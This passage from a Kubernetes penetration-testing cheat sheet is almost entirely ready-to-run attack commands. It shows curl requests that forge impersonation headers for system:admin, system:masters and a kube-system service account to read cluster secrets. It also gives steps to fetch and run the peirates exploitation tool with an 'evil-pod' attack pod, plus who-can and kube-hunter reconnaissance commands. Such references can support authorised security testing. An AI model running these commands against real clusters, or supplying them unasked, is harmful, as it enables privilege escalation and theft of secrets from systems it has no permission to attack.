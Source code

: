 ```bash
```

#### Service Account Impersonation
```bash
# Impersonate privileged service account
curl -sk -H "Authorization: Bearer $TOKEN" \
  -H "Impersonate-User: system:admin" \
  -H "Impersonate-Group: system:masters" \
  $APISERVER/api/v1/namespaces/kube-system/secrets

# Impersonate specific service account
curl -sk -H "Authorization: Bearer $TOKEN" \
  -H "Impersonate-User: system:serviceaccount:kube-system:admin" \
  $APISERVER/api/v1/namespaces/kube-system/secrets
```

---

## Modern Attack Tools

### Automated Exploitation Tools

#### Peirates
```bash
# Install peirates
wget https://github.com/inguardians/peirates/releases/latest/download/peirates-linux-amd64.tar.xz
tar xf peirates-linux-amd64.tar.xz
chmod +x peirates

# Run interactive exploitation
./peirates

# Non-interactive mode
./peirates -serviceaccount-name default -namespace default -attack-pod-name evil-pod
```

#### kubectl-who-can
```bash
# Install
kubectl krew install who-can

# Find who can perform specific actions
kubectl who-can create pods
kubectl who-can get secrets --all-namespaces
kubectl who-can "*" "*" --all-namespaces
```

#### kube-hunter
```bash
# Install via pip
pip3 install kube-hunter

# Run against cluster
kube-hunter --remote <cluster-ip>

# Run from inside cluster
kube-hunter --internal

# Generate report
kube-hunter --report json --remote <cluster-ip> > report.json
```
